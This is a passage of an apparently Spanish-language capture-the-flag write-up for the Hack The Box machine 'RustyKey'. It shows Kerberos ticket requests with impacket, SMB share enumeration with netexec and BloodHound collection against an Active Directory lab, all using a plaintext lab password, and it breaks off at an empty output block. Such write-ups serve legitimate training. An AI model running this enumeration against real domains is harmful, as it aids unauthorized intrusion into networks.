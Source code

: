 ```shell
ntpdate rustykey.htb ; impacket-getTGT rustykey.htb/'rr.parker':'8#t5HE8L!W3A'
```

Info:

```
2025-10-14 16:16:11.916372 (-0700) +734.500868 +/- 0.496514 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 734.500868
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in rr.parker.ccache
```

Ahora nos exportaremos dicho archivo generado en la variable de `kerberos` para que nos funcione cuando vayamos a lanzar un comando autenticado por dicho usuario.

```shell
export KRB5CCNAME=rr.parker.ccache
```

Echo esto vamos a listar los recursos compartidos que tiene el usuario en `SMB` a ver si funciona ahora.

```shell
ntpdate rustykey.htb ; netexec smb dc.rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -k --shares
```

Info:

```
2025-10-14 16:17:33.072222 (-0700) +7.633336 +/- 0.014220 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 7.633336
SMB         dc.rustykey.htb 445    dc               [*]  x64 (name:dc) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A 
SMB         dc.rustykey.htb 445    dc               [*] Enumerated shares
SMB         dc.rustykey.htb 445    dc               Share           Permissions     Remark
SMB         dc.rustykey.htb 445    dc               -----           -----------     ------
SMB         dc.rustykey.htb 445    dc               ADMIN$                          Remote Admin
SMB         dc.rustykey.htb 445    dc               C$                              Default share
SMB         dc.rustykey.htb 445    dc               IPC$            READ            Remote IPC
SMB         dc.rustykey.htb 445    dc               NETLOGON        READ            Logon server share 
SMB         dc.rustykey.htb 445    dc               SYSVOL          READ            Logon server share
```

Veremos que ha funcionado, pero no veremos nada interesante de recursos, por lo menos sabemos que la autenticacion funciona, por lo que vamos a descargarnos un `ZIP` de `BloodHound` para poder visualizar los privilegios de los usuarios y todo el árbol en general del `AD`.

```shell
ntpdate rustykey.htb ; bloodhound-python -u rr.parker -p '8#t5HE8L!W3A' -ns <IP> -c All -d rustykey.htb --zip
```

Info:

